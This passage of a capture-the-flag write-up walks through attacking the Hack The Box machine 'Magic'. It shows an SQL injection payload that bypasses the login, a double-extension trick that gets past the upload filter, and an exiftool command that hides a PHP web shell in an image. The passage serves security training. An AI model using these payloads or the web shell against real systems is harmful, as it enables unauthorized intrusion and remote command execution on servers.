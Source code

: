 ```bash
```

The scan shows that port 22 on ssh and port 80 on http are open:

### Port 80

Navigating to the website gives us a portfolio of images.

The website seems to be a an image hosting and sharing platform where you can upoload your pictures and then they will be displayed.

![home page](https://i.ibb.co/fDgw3CN/magic-home-screen.png)

We see the `text` login in the bottom left of the screen. We click on this and it forwards us to a login screen.

### Sql login

![login-screen](https://i.ibb.co/VgwwQBj/magic-login-page.png)

We start by testing simple Sqlinjection payloads such as `' OR 1=1` and experimenting with `"` and `;` to try and tweak it to give us access. We finally come to our final command that works. It is:

```text
admin' or 1=1; --';
```

![sqllogin](https://i.ibb.co/1LGvzN5/mage-sqli-login-page.png)

After this we are exposed to the image upload feature that we assumed we would get at some point. We test uploading sample images to see what extensions we can get away with and in fact if we name a file `file.php.jpeg` we can get away with executing the php part of it as the website only seems to make sure that the final file extension is either png, jpg or jpeg.

![uploadpage](https://i.ibb.co/mDpynkt/upload-image.png)

### exiftool

We will now use `exiftool` to embed some php code into our image.

We will use this code: `<?php echo "<pre>"; system($_GET['cmd']); ?>`. This allows us to once we upload and head to our file in the url e.g [http://website.com/image.php.jpeg](http://website.com/image.php.jpeg) insert our own command and allow us to get code execution with it.

```bash
┌──(kali㉿kali)-[~/htb/boxes/magic]
└─$ exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' image.jpeg
    1 image files updated
```

### Uploading image

We then upload the image to the site.

![imageupload](https://i.ibb.co/jWP8JM3/image-uploaded-success.png)
